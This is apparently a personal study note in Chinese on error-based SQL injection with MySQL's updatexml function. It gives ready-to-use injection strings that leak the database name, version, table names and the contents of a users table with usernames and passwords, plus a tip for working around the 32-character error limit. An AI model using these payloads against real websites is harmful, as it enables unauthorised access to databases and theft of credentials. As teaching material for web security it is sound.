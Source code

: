 ## 报错注入

1. `updatexml`的使用
   1. `updatexml(1,2,3)`中`xpath`的位置在中间；
     2. 用波浪线填充
     3. 用0x7e代替~
     4. e.g. `updatexml(1,concat(0x7e,database()),1)`
    	5. 实操：`1' and updatexml(1,concat(0x7e,database()),3)--+`
         * `1' and updatexml(1,concat(0x7e,database(),0x7e,version()),3)--+`相比第一个实操，这个可以获取版本
         * `1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database()),0x7e,version()),3)--+`这个为获取表名
         * 也可或许字段名用`column`即可
         * 获取表中信息可用`select id,username,password from users`替换相应位置
         * **超过32位用截取函数`substr(1,起始位置,步长)`**